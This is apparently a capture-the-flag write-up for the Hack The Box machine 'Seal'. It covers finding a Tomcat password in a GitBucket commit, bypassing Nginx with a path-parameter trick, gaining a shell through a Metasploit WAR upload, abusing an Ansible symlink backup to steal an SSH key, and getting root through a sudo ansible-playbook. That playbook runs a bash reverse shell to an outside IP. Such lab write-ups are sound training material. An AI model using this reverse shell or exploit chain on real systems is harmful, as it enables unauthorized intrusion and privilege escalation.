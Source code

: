 ## Info
### Credential
 User | Password      | Service | Note
------|---------------|---------|------
      |               |         |email: admin@seal.htb
tomcat|`42MrHBf*z8{Z%`|Tomcat   |
luis  |               |System   |
### System
- hostname: `seal.htb`

### HTTPS
- nginx 1.18.0
- Apache Tomcat/9.0.31

### HTTP (8080)
- GitBucket

## Path
### Foothold
0. When I played this machine, it was still in Release Arena (RA), so I needed to download and use another VPN file for connecting to RA. This wasted me some time to figure out the problem. : (
1. The service of HTTPS was running Apache Tomcat/9.0.31, revealed in the 404 error message.
2. An issue of the repo "seal_market" on the GitBucket (port `8080`) talked about they using Nginx, not Tomcat, for mutual (certificate based) authentication, because of the server load balance. So I thought the authentication on HTTPS, which was the "seal_maeket", might be vulnerable.
3. Found the credential in the commit `971f3aa`. Also, the commit `db85dc0` specified `/manger/html`, not `/manager`, so I logged into Tomcat via `/manager/status`.
4. Since the architecture of the web service was 'Nginx -> Tomcat', according to the "Path Interpretation" graph of [this article](https://github.security.telekom.com/2020/05/smuggling-http-headers-through-reverse-proxies.html), I constructed the path `https://seal.htb/;foo=bar/manager/html` to visit the `/manager/html` page.
5. Use `msfvenom` to generate `rev.war`, but when uploading it, the machine gave me a 403 error from Tomcat. After trying, I used `msfconsole` to run the exploit `multi/http/tomcat_mgr_upload` and manually executed it after uploaded. Then I got the shell.

### User
1. The file `/opt/backups/playbook/run.yml` was running. According to the [documentation](https://docs.ansible.com/ansible/2.4/synchronize_module.html), we could create symlink in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`, and it would be copied to `/opt/backups/archives`, then we can read it. So I used it to copy `/home/luis.ssh/id_rsa` and logged into SSH. 
> `copy_links`: Copy symlinks as the item that they point to (the referent) is copied, rather than the symlink. 
2. Gain user.

### Root
1. Found `luis` can run `anisble-playbook` using `sudo` without password, so I crafted a playbook and ran it with `sudo` to got a root shell.
(The `ansible` on the machine was an old version, it took me so long to find [the correct syntax](https://stackoverflow.com/questions/66431114/ansible-cant-run-any-command-or-shell).
```
$ cat << EOF > root.playbook.yml
- hosts: localhost 
  remote_user: root
  become: yes
  become_method: sudo

  tasks:
    - command: /usr/bin/bash -c '/usr/bin/bash -i >& /dev/tcp/10.10.16.7/13337 0>&1'
EOF
$ sudo ansible-playbook root.playbook.yml
```
2. Gain root!

